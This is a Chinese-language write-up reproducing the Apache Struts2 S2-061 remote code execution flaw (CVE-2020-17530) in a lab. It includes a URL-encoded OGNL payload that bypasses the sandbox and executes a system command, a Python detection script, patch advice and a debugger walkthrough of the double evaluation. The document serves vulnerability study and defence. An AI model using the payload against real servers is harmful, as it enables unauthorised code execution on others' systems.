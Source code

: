 # Struts2 S2-061 远程命令执行漏洞（CVE-2020-17530）复现与利用

## 漏洞概述

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

CVE-2020-17530是对CVE-2019-0230的绕过，Struts2官方对CVE-2019-0230的修复方式是加强OGNL表达式沙盒，而CVE-2020-17530绕过了该沙盒。在特定的环境下，远程攻击者通过构造恶意的OGNL表达式，可造成任意代码执行。

## 影响版本

Struts 2.0.0 – Struts 2.5.25

## 漏洞复现

### 环境搭建

此处使用了vulhub里面的环境。

![屏幕截图 2024-04-01 152740.png](6446da3c3d964d40cf63cb7be6ebabb0.png)

### 漏洞测试

- 检验漏洞是否存在

```
url:8080/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d
```

![屏幕截图 2024-04-01 152658.png](f631feb7496ad789619a2d692c9874b7.png)

可以在响应包中发现执行了 2021+20的命令2041.

- 执行系统命令id

```
url:8080/?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27id%27}).(%23res%3d%23exec.exec(%23cmd))}
```

![截图](81c3f3809fbe4e6b94b39ac4e5fa2ad6.png)

## 漏洞检测poc

```
# structs.py

import requests

def scan(target_url):
    try:
        headers = {
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Mobile Safari/537.36'
        }
        vul_url = target_url + '/?id=%25%7b+%27test%27+%2b+(2021+%2b+20).toString()%7d'
        response = requests.get(vul_url, headers=headers, timeout=10)
        if '2041' in response.text:
            return True
        else:
            return False
    except Exception as e:
        print('[-] 发生错误:', e)
        return False

```

可以使用以下工具来检测漏洞是否存在:https://github.com/hypnoticp/Python_script

![屏幕截图 2024-04-01 152814.png](a399a8a4af8854eb73de24e4df5851cf.png)

## 应急与修复建议

- 将Apache Struts框架升级至最新版本
- 排查docker log日志，web访问日志，struts2框架日志

## 漏洞原理

Struts在某些情况下可能存在OGNL表达式注入注入漏洞，如果开发人员使用了%{…}语法，进行强制的OGNL解析，某些特殊的TAG属性可能被双重解析，攻击者可以通过构造恶意的OGNL表达式来利用此漏洞，最终造成远程代码执行。

### 分析

S2-059是Apache Struts框架, 会对某些特定的标签的属性值，比如id属性进行二次解析，导致命令注入。S2-061则是对S2-061的沙盒的绕过,原理一样.

tag标签存在二次解析，说明存在漏洞，那我们可以找到structs2标签解析的入口，也是·本次debug的入口。

![截图](d179e36ede9332e83071dc55843c2c75.png)

该漏洞发生在输入的参数被传入到某些标签的id属性中,在传递的过程中struts2进行了如图的两次OGNL解析.导致了命令执行. 我们知道Struts2中的标签解析由org.apache.struts2.views.jsp.ComponentTagSupport的doStartTag方法开始的,所以这两次解析就发生在该方法中. 以下分析使用的payload=%{3*5}.

![截图](4f31ae4ebe77b9618095d20734a5c4f6.png)

#### 第一次解析

第一次解析出现在this.populateParams()方法中. 该方法中调用了两次父类的populateParams()方法.在后一次的populateParams()方法中调用了uiBean.setId(this.id);,id为jsp中a标签内的值(%id).

![截图](e410928ad5857cb558e345a724f3fa65.png)

该方法内部调用findString()方法.

![截图](579e070d2d3cb81f15a9b02e100b1873.png)

接着又调用findValue()方法,这里省略一部分方法,调用栈如下,一步步跟进发现最终调用OgnlTextParser.evaluate方法.该方法中将%{}解析%{3*5}

#### 第二次解析

第二次解析出现在this.component.start(this.pageContext.getOut());中.跟进该方法.

![截图](430ec2a803e77412fc0e861287f632ec.png)

发现调用父类的start方法.继续跟进:

![截图](7d0c03e410d9057c4452c6df58f2fc3f.png)

现一个evaluateParams方法,翻译过来评估参数.猜想会对参数做某些操作.跟进它:

![截图](c26f2024fc216a0a73d6c39b9e264b59.png)

内部执行populateComponentHtmlId(form);方法.继续跟进:

![截图](954be87e600bbf88bbf450be46d5764e.png)

发现里面调用findStringIfAltSyntax方法.从名称可以判断出如果开启AltSyntax.则调用findValue.跟进看看:

![截图](1092e07c2d572721e1f8a298c50f2fbb.png)

果不其然,我们就找到了该漏洞的另一个条件(除了版本外),必须开启AltSyntax.struts2文档对于AltSyntax说明如下:

```
The altSyntax is an option that can be defined in struts.xml. By default it is set to true and it is strongly recommend you do not change that unless you are upgrading from WebWork 2.1.7 or previous versions.
```

从官方文档中可以看到该AltSyntax设置是默认开启,所以执行findString方法,走的流程就和第一次一样,对id的值再一次OGNL解析.
